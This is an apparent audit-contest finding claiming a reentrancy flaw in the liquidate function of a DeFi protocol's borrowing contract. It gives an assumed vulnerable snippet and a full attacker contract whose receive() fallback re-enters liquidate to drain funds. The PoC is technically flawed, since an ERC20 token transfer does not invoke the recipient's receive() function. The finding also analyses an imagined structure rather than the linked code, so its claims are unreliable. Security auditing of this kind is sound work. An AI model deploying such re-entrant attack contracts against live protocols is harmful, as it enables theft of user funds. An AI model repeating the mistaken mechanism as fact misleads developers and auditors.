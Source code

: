 Future Beige Mole

High

# Reentrancy Risk in liquidate function because not following CEI pattern and no reentrancy guard

# Summary
https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L363-L409

The main issue identified is the potential vulnerability to a reentrancy attack in the liquidate function, which doesn't follow the Check-Effects-Interactions (CEI) pattern. This failure occurs because the contract interacts with external systems (e.g., token transfers or calling external protocols like CDS) before updating the internal state.
# Vulnerability Details
### Reentrancy Vulnerability:

External calls (like token transfers or interactions with other contracts) happen before the contract updates its internal state (e.g., marking the liquidation or adjusting the balance).
An attacker can exploit this sequence to re-enter the contract and manipulate state variables, potentially leading to malicious fund withdrawals or inconsistent contract states.
### Consequences:
Funds can be drained: Attackers could repeatedly withdraw funds by exploiting reentrancy.
Inconsistent contract state: The contract’s internal state might not match the actual state of the system, causing incorrect behaviors (e.g., liquidation status might not update correctly).
Operational failure: The contract might fail to function as intended, leading to potential financial loss and trust issues.
# PoC
Let’s assume the following vulnerable contract structure for the liquidate function:

```solidity

function liquidate(address account) external {
    // Step 1: External interaction (e.g., token transfer, CDS call)
    externalToken.transfer(account, amount);
    
    // Step 2: Update internal state (e.g., mark account as liquidated)
    liquidations[account] = true;  
}
```
An attacker can deploy a malicious contract that re-enters the liquidate function before the internal state update, triggering multiple liquidations.

### Malicious Contract
```solidity

pragma solidity ^0.8.0;

interface VulnerableContract {
    function liquidate(address account) external;
}

contract MaliciousAttack {
    VulnerableContract public vulnerableContract;
    address public targetAccount;

    constructor(address _vulnerableContract, address _targetAccount) {
        vulnerableContract = VulnerableContract(_vulnerableContract);
        targetAccount = _targetAccount;
    }

    // This function is called to trigger the attack
    function attack() external {
        vulnerableContract.liquidate(targetAccount);
    }

    // This fallback function is called when the vulnerable contract makes an external call
    receive() external payable {
        // Re-enter the vulnerable contract’s liquidate function
        vulnerableContract.liquidate(targetAccount);
    }
}
```
How the Attack Works:
Initial Liquidation Call: The attacker calls attack() in the MaliciousAttack contract, which calls the vulnerable liquidate function.

External Call Before State Update: Inside the vulnerable contract, the externalToken.transfer(account, amount) is made before updating the liquidation state, meaning the attacker's fallback function is triggered before the liquidation status is updated.

Re-Entry into Liquidate Function: The fallback function (receive()) is executed during the transfer, and it calls the liquidate function again, potentially draining funds or allowing repeated liquidation before the state is marked as liquidated.

Repeated Re-Entrant Calls: The attacker can exploit the sequence of external call (token transfer) followed by internal state changes to repeatedly call the liquidation function, potentially draining the contract's funds.

# Impact
### Severity: High
### Likelihood: Medium to High
### Impact: High
# Recommendations:
### Follow the CEI pattern: 
Always update internal state before interacting with external systems.
### Use Reentrancy Guards: 
Implement mechanisms to prevent reentrancy attacks.
### Ensure Safe External Interactions: 
Validate external calls and ensure they do not compromise contract integrity.